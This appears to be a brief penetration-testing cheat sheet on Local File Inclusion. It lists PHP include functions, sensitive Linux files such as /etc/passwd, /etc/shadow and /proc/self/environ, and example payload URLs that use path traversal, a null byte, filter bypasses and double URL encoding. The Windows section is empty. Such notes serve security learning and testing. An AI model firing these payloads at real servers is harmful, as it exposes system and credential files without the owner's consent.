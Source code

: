 ```yaml
---
  title: "Local File Inclusion"
---
```


# Intro
# Source code hints
-include
-require
-include_once 
-require_once 

# Interesting paths in Linux
-/etc/issue
-/etc/passwd
-/etc/shadow
-/etc/group
-/etc/hosts
-/etc/motd
-/etc/mysql/my.cnf
-/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
-/proc/self/environ
-/proc/version
-/proc/cmdline

# Interesting paths in Windows
# Examples
http://examples/page.php?file=/etc/passwd
http://example/page.php?file=../../../../../../etc/passwd
http://example/page.php?file=../../../../../../etc/passwd%00
http://example/page.php?file=....//....//....//....//etc/passwd
http://example/page.php?file=%252e%252e%252fetc%252fpasswd
